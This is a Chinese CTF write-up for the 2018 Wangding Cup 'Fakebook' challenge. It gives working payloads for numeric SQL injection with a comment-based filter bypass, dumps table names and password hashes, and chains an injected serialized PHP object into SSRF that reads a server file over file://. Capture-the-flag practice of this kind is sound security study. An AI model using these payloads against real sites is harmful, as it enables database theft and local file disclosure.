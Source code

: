 ## [网鼎杯 2018]Fakebook

考点：sql数字型注入，php序列化，file协议,爬虫协议，源码备份，SSRF

> 在view.php中发现数字型注入
>
> ```
> no=1 or 1=1 回显成功
> no=1 or 1=2 报错
> ```

> 进行读取数据库数据

测试字段数

```
no=-1 order by 1,2,3,4# 一共四个字段
```

读取数据库名（这里`union select`整体被过滤了）

```
-1 union/**/select 1,2,3,4
```

观察页面，发现只有2位置有回显，接着写语句

爆当前数据库 

```
-1 union/**/select 1,database(),3,4
fakebook
```

爆表名

```
-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'
users
```

爆字段名

```
-1 union/**/select 1,group_concat(column_name) ,3,4 from information_schema.columns where table_name='users'
no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

查看字段的值

```
-1 union/**/select 1,group_concat(no,';',username,';',passwd,';',data)  ,3,4 from users
```

```
1;11;74a49c698dbd3c12e36b0b287447d833f74f3937ff132ebff7054baa18623c35a705bb18b82e2ac0384b5127db97016e63609f712bc90e3506cfbea97599f46f;O:8:"UserInfo":3:{s:4:"name";s:2:"11";s:3:"age";i:11;s:4:"blog";s:9:"baidu.com";}
```

这里data的值是序列化字符串

> 发现网站目录下还有robots.txt
>
> ```
> User-agent: *
> Disallow: /user.php.bak
> ```
>
> 访问/user.php.bak，下载源码

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

> 通过get获得指定的URL，设置curl 参数，并将指定URL的内容返回，只要返回内容不为404即可

最后的payload

```
no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:2:"11";s:3:"age";i:11;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

利用SSRF漏洞和file协议，返回flag.php的内容

![image-20240202220349663](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240202220349663.png)

base64解码即可

这题考的挺多的，记录一下解题思路。
